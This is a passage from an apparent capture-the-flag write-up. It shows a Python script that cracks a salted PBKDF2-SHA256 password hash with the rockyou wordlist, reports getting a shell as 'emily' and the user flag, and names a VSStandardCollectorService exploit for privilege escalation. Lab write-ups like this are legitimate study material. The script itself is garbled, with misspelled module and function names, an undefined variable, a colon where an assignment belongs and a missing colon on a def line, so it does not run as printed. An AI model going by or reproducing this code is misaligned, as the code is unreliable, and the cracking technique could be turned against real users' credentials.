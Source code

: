 ```python
	hash_value = hashlib.pbkdf2_hmac(
		'sha-256',
		password.encode('utf-8'), #Converting to bytes
		salt,
		iterations, 
		dklen=dklen
	)
	
	return hash_value
	
def find_matching_password(dictionary_file, target_hash, salt, iterations=50000, dklen=50)

	#Converting target hash to bytes
	target_hash_bytes= binascci.unhexlify(targethash)
	with open(dictionary_file, 'r', encoding='utf-8') as file:
		for line in file:
			#Delete blank spaces
			password: line.strip()
			
			#Generate the hash for the current password
			hash_value = pbdkf2_hash(password,salt,iterations,dklen)
			
			#Comparing hashes
			if hash_value == target_hash_bytes:
				print(f"Found password: {password}")
				return password
				
		print("Password not found")
		return None
			
#COnverting salt to bytes
salt = binascii.unhexlify('227d873cca89103cd83a976bdac52486')
target_hash = '97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16' 
dictionary_file = '/usr/share/wordlist/rockyou.txt'

find_matching_password(dictionary_file, target_hash, salt)
```
<br/><br/>
![image.png]({{ '/assets/images/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9_image_16.png' | relative_url }})
<br/><br/>
Then are going to be able to open a session as emily and get the user flag
<br/><br/>
![image.png]({{ '/assets/images/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9_image_17.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9_image_18.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9_image_19.png' | relative_url }})
<br/><br/>
# 3.Priv esc
<br/><br/>
If we dig a little bit more in the machine we found that visual studio is installed, there is a recent vulnerability found in VSStandardCollectorService
<br/><br/>
![image.png]({{ '/assets/images/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9_image_20.png' | relative_url }})
<br/><br/>
We only need to fix the path where the exploit will search into VSDiagnostics
<br/><br/>